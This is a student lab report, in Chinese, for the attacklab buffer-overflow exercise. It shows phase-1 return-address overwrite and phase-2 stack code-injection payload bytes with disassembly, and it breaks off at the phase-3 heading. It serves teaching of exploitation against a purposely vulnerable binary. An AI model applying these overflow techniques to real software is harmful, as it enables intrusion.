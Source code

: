 # attacklab 实验报告

## CI

### 第一关

实验文档的提示以及很详细了。先找到 getbuf，发现缓冲区的长度为 24 字节；

然后找到 touch1 的地址为 `0x0000000000401695`；

只需先用任意字符串填充缓冲区的 24 字节，然后将后面 return address 的 8 个字节覆盖为 touch1 的地址即可，注意小端法。

```c
00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 01 02 03
95 16 40 00 00 00 00 00
```



### 第二关

这里需要在进入 touch2 之前，提前修改 %rdi 的值，我们可以在栈上注入代码；

我们需要先找到调用 Gets 函数时的栈顶地址，因为这里的栈底地址是固定为 `0x00007fffffffffff`，因此无论运行多少次，走到 Gets 的时候栈顶地址都一定是固定的；

使用 `info regi` 指令，得知此时的栈顶地址为 `0x55654c98`，我们就在这 24 字节长的缓冲区中，注入我们的攻击代码；

攻击代码的汇编形式如下：

```assembly
pushq $0x4016c1 # touch2
movq $0x3d9549ca, %rdi
req
```

使用实验文档的方式得到带有字节代码的汇编代码：

```assembly

ctarget.l2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 c1 16 40 00       	pushq  $0x4016c1
   5:	48 c7 c7 ca 49 95 3d 	mov    $0x3d9549ca,%rdi
   c:	c3                   	retq   

```

注入的代码的字节码为：`68 c1 16 40 00 48 c7 c7 ca 49 95 3d c3`。由于长度不足 24 字节，因此使用任意字符 `0x0a` 除外填充至 24 字节，跟上栈顶地址 `0x55654c98`。

```c
68 c1 16 40 00 48 c7 c7 ca 49 95 3d c3 00 00 00 00 00 00 00 00 00 00 00
98 4c 65 55 00 00 00 00
```



### 第三关

